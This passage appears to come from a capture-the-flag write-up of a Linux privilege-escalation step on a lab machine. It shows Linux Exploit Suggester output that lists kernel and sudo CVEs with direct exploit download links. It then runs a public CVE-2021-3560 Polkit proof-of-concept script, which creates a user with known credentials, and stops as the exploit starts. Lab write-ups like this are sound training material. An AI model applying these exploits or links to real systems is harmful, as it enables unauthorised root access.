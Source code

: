 ```swift
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: less probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},debian=10{kernel:4.19.0-*},fedora=30{kernel:5.0.9-*}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.


Vulnerable to CVE-2021-3560
```

Since there's no other viable vector found, let's try exploit suggested by "Linux Exploit Suggester".

### CVE-2021-3560

I found a nicely built script from [github](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation).
Default credentials are `secnigma` : `secnigmaftw`.
I uploaded the PoC script and ran it.

```bash
[dwight@paper tmp]$ ./poc.sh

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
```